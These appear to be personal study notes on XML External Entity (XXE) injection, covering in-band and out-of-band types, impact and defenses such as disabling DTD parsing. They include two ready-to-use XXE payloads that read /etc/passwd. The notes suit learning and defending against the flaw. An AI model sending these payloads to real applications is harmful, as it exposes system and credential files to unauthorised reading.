 **Tags:** #type/tech-specific

---

[[2 Tech-Specifics/_Other/File Formats/XML|xml basics]]
app uses untrusted xml-documents - e.g. provided by the user
xml files are generated based on user input without input validation 

**2 Types:**
1. in-band XXE: attacker receives immediate response to payload
2. out-of-band XXE: no immediate respone, output has to be reflected to some file or server
## Examples
short xml file to read the contents of /etc/passwd
``` xml
<?xml version="1.0" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
sometimes, the xml version has to be downgraded to a certain encoding:
``` xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
### Impact
- attackers can interact with backend or external systems
- readout of local files
- DoS attacks
### Defense
- use secure and updated xml-parser and SOAP framework
- deactivate parsing of DTDs (Document type definitions)
- validate data that is insertedinto an xml file
- validate xml file against xms 